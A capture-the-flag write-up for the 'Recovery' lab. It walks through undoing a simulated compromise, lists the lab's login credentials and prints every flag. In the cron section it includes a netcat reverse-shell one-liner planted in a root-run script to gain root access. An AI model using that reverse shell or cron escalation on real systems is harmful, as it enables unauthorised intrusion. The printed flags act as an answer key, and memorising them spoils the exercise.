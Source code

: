 # RECOVERY

```
ssh:
alex : madeline
```

Once login with ssh, we can only see "YOU DIDNT SAY THE MAGIC WORD!" over and over again.
Using scp to download the binary mentioned by Alex, which is located in his home directory.
```
scp alex@recovery.thm:fixutil .
```

Open it with ghidra and we can see that it modified the `.bashrc` file on `/home/alex`. So we just need to delete the file then we can log in.\
First download a copy of `.bashrc` using scp again and remove the while true line. Then delete the file on the machine using ssh.
```
ssh alex@recovery.thm rm .bashrc
```
Once it is done, log in with ssh again and we're in.\
Refresh the page on port 1337 and we got out first flag, Flag 0.
```
THM{d8b5c89061ed767547a782e0f9b0b0fe}
```

After we're logged in, we kept getting kicked out once in awhile. Check the crontab to see is there any cronjob running
```
cat /etc/crontab
```
... but not luck. Check in `/etc/cron.d` and we can see there is a cronjob named evil. Further insepction shows it execute `/opt/brilliant_script.sh` as root. Looking at the file, it shows that it kept killing ssh process. Just comment out the line and we're fine. Add in our own payload for reverse shell as well to get root access.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```
Now refresh the page again and we got Flag 1.
```
THM{4c3e355694574cb182ca3057a685509d}
```


After we're in as root, let's go back to the `fixutil` binary again. We see that it modified the `/lib/x86_64-linux-gnu/liblogging.so` file. So we download that file with scp again and run strings on the file. While scanning through the file, it shows that the original `liblogging.so`, which is copied to `/tmp/liblogging.so` by fixutil, was then copied back to same directory but with a different name, `oldliblogging.so`. Now delete the modified `liblogging.so` and rename `oldliblogging.so` as `liblogging.so`. Flag 2 was presented to us.
```
THM{72f8fe5fd968b5817f67acecdc701e52}
```

Using the reverse shell we got is still quite unstable, we can add our ssh public key, located at `/home/<user>/.ssh/id_rsa.pub` into `/root/.ssh/authorized_keys` on the machine. Then we can ssh into the machine as root without password.

Further inspection on the modified `liblogging.so` shows that the `authorized_keys` file was tampered as well. Delete the ssh-key in it which is not ours then Flag 3 is found.
```
THM{70f7de17bb4e08686977a061205f3bf0}
```

In the `liblogging.so` as well, we can see that the hacker added a user named security. Delete the user with any means and Flag 4 is given to us. Using either `deluser` or manually remove the user from `/etc/passwd` and `/etc/shadow` will work.
```
THM{b0757f8fb8fe8dac584e80c6ac151d7d}
```


Now for the last flag we need to recover the encrypted file. Inspecting the `liblogging.so` we knows that it is encrypted by xor-ing the file with a key. This can be seen by the line XOREncryptWebFiles. The key is located in `/opt/.fixutil/backup.txt`. I've wrote a [program](webfile/decrypt.py) to decrypt the file. After decrypting the file, replace the file in `/usr/local/apache2/htdocs` with it and we're done.
```
THM{088a36245afc7cb935f19f030c4c28b2}
```